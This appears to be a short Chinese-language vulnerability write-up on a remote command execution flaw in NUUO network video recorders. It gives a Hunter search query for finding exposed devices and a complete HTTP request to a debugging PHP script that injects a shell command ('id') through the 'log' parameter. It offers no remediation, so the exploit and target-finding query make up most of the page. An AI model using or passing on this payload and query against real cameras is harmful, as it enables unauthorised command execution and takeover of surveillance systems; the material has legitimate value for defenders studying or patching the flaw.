 # ​NUUO摄像头存在远程命令执行漏洞

# 一、漏洞简介
NUUO摄像头是中国台湾NUUO公司旗下的一款网络视频记录器，该设备存在远程命令执行漏洞，攻击者可利用该漏洞执行任意命令，进而获取服务器的权限。

# 二、影响版本
+ NUUO摄像头

# 三、资产测绘
+ hunter`web.title="Network Video Recorder Login"`
+ 特征

![1699193264623-ebc62d58-8540-4b12-b89e-50db1a27bdcc.png](./img/9KTLqutzFOqS5Otb/1699193264623-ebc62d58-8540-4b12-b89e-50db1a27bdcc-947661.png)

# 四、漏洞复现
```plain
GET /__debugging_center_utils___.php?log=;id HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![1699193298040-d4aa2125-175a-43e8-a65d-1c942d48ce5d.png](./img/9KTLqutzFOqS5Otb/1699193298040-d4aa2125-175a-43e8-a65d-1c942d48ce5d-663831.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qa3vprl34sg1ay3x>
